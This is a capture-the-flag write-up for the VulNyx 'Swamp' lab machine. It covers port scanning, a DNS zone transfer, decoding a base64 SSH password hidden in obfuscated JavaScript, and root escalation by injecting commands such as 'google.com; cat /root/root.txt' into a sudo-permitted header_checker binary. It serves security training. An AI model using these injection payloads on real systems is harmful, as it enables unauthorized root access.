



# CTF Penetration Testing

## Platform: VulNyx

### Machine: [Swamp](https://vulnyx.com/#swamp)

- Machine type:  Linux
- Machine difficulty: 🟩 Easy

#### Skills Learned

- **DNS Zone Transfer**
- **JavaScript Deobfuscation**
- **Linux Privilege Escalation** - `sudo` Rights Abuse

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.247.128  netmask 255.255.255.0  broadcast 192.168.247.255

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ fping 192.168.247.130

192.168.247.130 is alive

┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 192.168.247.130 -T5

[SNIP]

PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

┌──(nabla㉿kali)-[~]
└─$ nmap -Pn -sU -F 192.168.247.130 -T5 --open

[SNIP]

PORT   STATE SERVICE
53/udp open  domain
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://192.168.247.130 

http://192.168.247.130 [302 Found] Apache[2.4.62], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[192.168.247.130], RedirectLocation[http://swamp.nyx]
ERROR Opening: http://swamp.nyx - no address for swamp.nyx
❌

┌──(nabla㉿kali)-[~]
└─$ echo -e '192.168.247.130\tswamp.nyx' | sudo tee -a /etc/hosts

192.168.247.130 swamp.nyx

┌──(nabla㉿kali)-[~]
└─$ whatweb http://swamp.nyx 

http://swamp.nyx [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[192.168.247.130], Title[Welcome to Swamp]
```



```
┌──(nabla㉿kali)-[~]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://swamp.nyx/indexFUZZ

[SNIP]

.phps                   [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 3ms]
.html                   [Status: 200, Size: 508, Words: 142, Lines: 25, Duration: 4757ms]

┌──(nabla㉿kali)-[~]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://swamp.nyx/FUZZ -recursion -recursion-depth 1 -e .html,.phps -fs 274 -v -t 100 -ic

[SNIP]

[Status: 200, Size: 508, Words: 142, Lines: 25, Duration: 215ms]
| URL | http://swamp.nyx/index.html
    * FUZZ: index.html
```

```
┌──(nabla㉿kali)-[~]
└─$ gobuster vhost -u http://swamp.nyx -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 10

❌
```

**DNS Zone Transfer**

```
┌──(nabla㉿kali)-[~]
└─$ dig axfr @192.168.247.130 swamp.nyx

[SNIP]

swamp.nyx.              604800  IN      SOA     ns1.swamp.nyx. . 2025010401 604800 86400 2419200 604800
swamp.nyx.              604800  IN      NS      ns1.swamp.nyx.
d0nkey.swamp.nyx.       604800  IN      A       0.0.0.0
dr4gon.swamp.nyx.       604800  IN      A       0.0.0.0
duloc.swamp.nyx.        604800  IN      A       0.0.0.0
f1ona.swamp.nyx.        604800  IN      A       0.0.0.0
farfaraway.swamp.nyx.   604800  IN      A       0.0.0.0
ns1.swamp.nyx.          604800  IN      A       0.0.0.0
shr3k.swamp.nyx.        604800  IN      A       0.0.0.0
swamp.nyx.              604800  IN      SOA     ns1.swamp.nyx. . 2025010401 604800 86400 2419200 604800

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '192.168.247.130\td0nkey.swamp.nyx dr4gon.swamp.nyx duloc.swamp.nyx f1ona.swamp.nyx farfaraway.swamp.nyx shr3k.swamp.nyx' | sudo tee -a /etc/hosts

192.168.247.130 d0nkey.swamp.nyx dr4gon.swamp.nyx duloc.swamp.nyx f1ona.swamp.nyx farfaraway.swamp.nyx shr3k.swamp.nyx
```




**JavaScript Deobfuscation**




```javascript
!function()
	{
	var e;
	new Promise((e,t)=>
		{
		setTimeout(()=>
			{
			e("Value is positive: 5")
		}
		,1e3)
	}
	).then(e=>
		{
		console.log(e)
	}
	).catch(e=>
		{
		console.error(e)
	}
	);
	let t=async e=>
		{
		try
			{
			let t=await(await fetch(e)).json();
			console.log("Data fetch success:",t)
		}
		catch(o)
			{
			console.error("Error fetching data:",o)
		}
	};

[SNIP]
	console.log($.next().value),console.log($.next().value),console.log($.next().value);
	console.log("Hello, John! Welcome to the page.");
	Password:c2hyZWs6cHV0b3Blc2FvZWxhc25v;
	let f=JSON.parse('
		{
		"name":"Shrek","age":30
	}
	');
	console.log("Parsed JSON data:",f),"geolocation"in navigator?navigator.geolocation.getCurrentPosition(e=>
		{
		console.log("Your current location:",e.coords.latitude,e.coords.longitude)
	}
	,e=>
		{
		console.error("Error getting location:",e)
	}
	):console.log("Geolocation not available");
	let v="    JavaScript is fun!   ",y=v.trim();
	console.log("Trimmed string:",y);
	let S=v.toUpperCase();
	console.log("Uppercase string:",S),localStorage.setItem("user",JSON.stringify(
		{
		name:"Shrek",age:30
	}
	));
	let w=JSON.parse(localStorage.getItem("user"));
	console.log("Stored user in localStorage:",w),console.log("Random number:",Math.random()),console.log("Square root of 16:",Math.sqrt(16)),console.log("PI value:",Math.PI)
}
();
```

```javascript
Password:c2hyZWs6cHV0b3Blc2FvZWxhc25v
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -n 'c2hyZWs6cHV0b3Blc2FvZWxhc25v' | base64 -d

shrek:putopesaoelasno  
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh shrek@swamp.nyx

shrek@swamp.nyx's password:

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jan  4 13:12:39 2025 from 192.168.1.33
shrek@swamp:~$ 
```

```
shrek@swamp:~$ ls -la

total 48
drwxr-xr-x 3 shrek shrek  4096 Jan  4 14:45 .
drwxr-xr-x 4 root  root   4096 Jan  4 02:31 ..
lrwxrwxrwx 1 root  root      9 Jan  4 05:51 .bash_history -> /dev/null
-rw-r--r-- 1 shrek shrek   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 shrek shrek  3526 Apr 23  2023 .bashrc
-rwsrwxrwx 1 root  root  17736 Jan  4 14:23 header_checker
drwxr-xr-x 3 shrek shrek  4096 Jan  4 05:58 .local
-rw-r--r-- 1 shrek shrek   807 Apr 23  2023 .profile
-rw-r--r-- 1 shrek shrek    33 Jan  4 02:33 user.txt

shrek@swamp:~$ cat user.txt

7d199*************************** 🚩
```

**Linux Privilege Escalation**

```
shrek@swamp:~$ sudo -l

[SNIP]

User shrek may run the following commands on swamp:
    (ALL) NOPASSWD: /home/shrek/header_checker

shrek@swamp:~$ ls -l header_checker 

-rwsrwxrwx 1 root root 17736 Jan  4 14:23 header_checker
```

```
shrek@swamp:~$ ./header_checker 

Error: --url is required.
Usage: ./header_checker --url '<url>' [--timeout <timeout>] [--method <method>] [--headers <custom_headers>]

Flags:
  --url '<url>'           The URL to fetch headers from (required)
  --timeout <timeout>     The maximum time (in seconds) to wait for a response (optional, default: 10)
  --method <method>       The HTTP method to use (optional, default: GET)
  --headers <headers>     Custom headers to send with the request (optional)
  --help                  Display this help message
Example: ./header_checker --url "google.com"

shrek@swamp:~$ ./header_checker --url "google.com"

Fetching response headers from: google.com
Timeout: 10 seconds
HTTP Method: GET
Custom Headers: 
Response Headers:
HTTP/1.1 301 Moved Permanently
Location: http://www.google.com/
Content-Type: text/html; charset=UTF-8
Content-Security-Policy-Report-Only: object-src 'none';base-uri 'self';script-src 'nonce-rsrL0Y1XpZkP6wqNXl2oFA' 'strict-dynamic' 'report-sample' 'unsafe-eval' 'unsafe-inline' https: http:;report-uri https://csp.withgoogle.com/csp/gws/other-hp
Date: Sat, 31 May 2025 13:10:00 GMT
Expires: Mon, 30 Jun 2025 13:10:00 GMT
Cache-Control: public, max-age=2592000
Server: gws
Content-Length: 219
X-XSS-Protection: 0
X-Frame-Options: SAMEORIGIN

shrek@swamp:~$ ./header_checker --url "google.com; whoami"

[SNIP]

shrek
```

```
shrek@swamp:~$ sudo ./header_checker --url "google.com; whoami"

[SNIP]

root

shrek@swamp:~$ sudo ./header_checker --url "google.com; ls -la /root"

[SNIP]

total 48
drwx------  4 root root 4096 Jan  4 14:45 .
drwxr-xr-x 18 root root 4096 Jan  4 03:03 ..
-rw-------  1 root root 8449 Jan  4 14:45 .bash_history
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-------  1 root root   20 Jan  4 10:39 .lesshst
drwxr-xr-x  3 root root 4096 Feb 12  2024 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Jan  4 02:33 root.txt
-rw-r--r--  1 root root   66 Jan  4 10:01 .selected_editor
drwx------  2 root root 4096 Feb 12  2024 .ssh

shrek@swamp:~$ sudo ./header_checker --url "google.com; cat /root/root.txt"

9c7bd*************************** 🚩
```


---
---
